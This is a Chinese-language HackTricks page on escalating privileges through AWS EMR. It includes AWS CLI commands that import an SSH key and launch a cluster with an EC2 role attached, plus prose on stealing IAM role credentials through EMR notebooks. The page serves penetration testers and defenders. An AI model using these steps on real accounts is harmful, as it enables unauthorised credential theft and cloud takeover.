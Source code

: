# AWS - EMR Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## EMR

更多关于 **EMR** 的信息在：

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

拥有这些权限的攻击者可以 **运行一个新的 EMR 集群并附加 EC2 角色**，并尝试窃取其凭证。\
请注意，为了做到这一点，您需要 **知道账户中导入的一些 ssh 私钥** 或导入一个，并且能够 **在主节点上打开 22 端口**（您可能能够通过 `--ec2-attributes` 中的 `EmrManagedMasterSecurityGroup` 和/或 `ServiceAccessSecurityGroup` 属性做到这一点）。
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
注意如何在 `--service-role` 中指定 **EMR 角色**，以及在 `--ec2-attributes` 中指定 **ec2 角色**。然而，这种技术仅允许窃取 EC2 角色凭证（因为您将通过 ssh 连接），而无法获取 EMR IAM 角色。

**潜在影响：** 提升到指定的 EC2 服务角色。

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

拥有这些权限的攻击者可以进入 **AWS 控制台**，创建一个 Notebook 并访问它以窃取 IAM 角色。

{% hint style="danger" %}
即使在我的测试中将 IAM 角色附加到 Notebook 实例，我注意到我能够窃取 AWS 管理的凭证，而不是与 IAM 角色相关的凭证。
{% endhint %}

**潜在影响：** 提升到 AWS 管理角色 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

仅凭此权限，攻击者将能够访问 **Jupyter Notebook 并窃取与之关联的 IAM 角色**。\
Notebook 的 URL 是 `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
即使在我的测试中将 IAM 角色附加到 Notebook 实例，我注意到我能够窃取 AWS 管理的凭证，而不是与 IAM 角色相关的凭证。
{% endhint %}

**潜在影响：** 提升到 AWS 管理角色 arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
